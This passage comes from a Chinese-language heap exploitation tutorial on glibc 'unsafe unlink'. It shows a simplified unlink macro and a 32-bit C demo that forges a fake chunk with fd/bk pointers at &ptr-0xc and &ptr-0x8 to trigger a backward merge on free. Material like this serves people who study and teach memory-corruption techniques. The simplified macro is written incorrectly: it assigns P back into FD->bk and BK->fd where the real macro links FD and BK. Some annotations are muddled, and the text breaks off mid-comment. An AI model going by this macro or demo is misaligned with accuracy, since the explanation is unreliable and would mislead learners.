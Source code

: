 ## 0x04 unsafe unlink

这里的unlink分为两种，一个释放堆块的相邻堆块共有两个，当**前一个堆块**空闲时，**向后合并**；当**后一个堆块**空闲时，**向前合并**。

glibc的unlink宏（简化版）：
```
FD = P->fd;
BK = P->bk;
if(FD->bk == P && BK->fd == P)
{
	FD->bk = P;
	BK->fd = P;
}
```

当我们存在向后合并的情况时：
```
/*
| chunk1(p1) | chunk2(p2) |
*/
#include <stdio.h>

void *ptr;

int main()
{
	int prev_size, size, fd, bk;
	void *p1, *p2;
	char buf[253] = "";

	p1 = malloc(252);
	p2 = malloc(252);

	ptr = p1;
	prev_size = 0;
	size = 249;
	fd = (int)(&ptr) - 0xc;
	bk = (int)(&ptr) - 0x8;

	memset(buf, 'c', 253);
	memcpy(buf, &prev_size, 4);
	memcpy(buf+4, &size, 4);
	memcpy(buf+8, &fd, 4);
	memcpy(buf+12, &bk, 4);
	size = 248;
	memcpy(&buf[248], &size, 4);
	buf[252] = '\x00';

	memcpy(p1, buf, 253);
	free(p2);
	return 0;
}
```
此时我们free掉p2的话，由于我们伪造了chunk2的pre_presize和pre_inuse位，会使得向后合并的情况发生，fake_chunk会向后融合。再来观察unlink宏
```
/*P为fake_chunk，由chunk2->pre_size得到
P == ptr;
*/
FD = P->fd;                     // FD = P->fd = &ptr - 0xc = *(ptr + 0x8)
BK = P->bk;                    // BK = P->bk = &ptr - 0x8 = *(ptr + 0xc)
if(FD->bk == P && BK->fd == P)
/*
	此时
    FD->bk = ptr = *(&ptr - 0xc + 0xc)
    BK->fd = ptr = *(&ptr - 0x8 + 0x8)
```